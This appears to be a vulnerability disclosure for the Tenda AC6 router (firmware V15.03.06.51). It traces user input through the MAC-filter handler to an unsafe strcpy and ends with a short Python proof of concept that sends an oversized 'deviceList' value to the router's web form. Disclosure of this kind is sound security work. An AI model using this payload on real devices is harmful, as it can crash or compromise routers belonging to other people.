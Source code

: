 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/formSetMacFilterCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html
## Analyse:


![](../Tenda_AC10U/4.png)

get value from macFilterType , and get into if

![](../Tenda_AC10U/5.png)

get value from deviceList , pass to set_macfilter_rules

![](../Tenda_AC10U/6.png)

pass to set_macfilter_rules_by_one

![](../Tenda_AC10U/7.png)

pass to parse_macfilter_rule

![](../Tenda_AC10U/8.png)

finally call strcpy ,cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/formSetMacFilterCfg"
payload = 'A'*0x1000h + '\n'

r = requests.post(url, data={'deviceList': payload , 'macFilterType': 1 })
```
